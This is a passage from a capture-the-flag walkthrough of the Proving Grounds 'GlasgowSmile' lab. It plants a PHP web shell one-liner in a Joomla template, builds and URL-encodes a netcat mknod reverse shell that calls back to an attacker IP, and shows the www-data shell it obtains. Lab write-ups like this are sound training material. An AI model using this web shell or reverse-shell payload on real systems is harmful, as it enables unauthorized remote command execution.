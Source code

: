 ![file](../../../assets/images/ctfs/proving_grounds/glasgowsmile/file.png)

Use the following PHP web shell one-liner.

```bash
<?= system($_GET['cmd']); ?>
```

![cmd](../../../assets/images/ctfs/proving_grounds/glasgowsmile/cmd.png)

![id](../../../assets/images/ctfs/proving_grounds/glasgowsmile/id.png)

Generate the revshell and urlencode

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/glasgowsmile]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/glasgowsmile]
└─$ urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l"
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

```

Run the following payload in the URL

```bash
http://192.168.202.79/joomla/templates/protostar/cmd.php?cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl
```

We get a reverse shell

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/glasgowsmile]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.202.79] 37924
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

## Check Configuration File
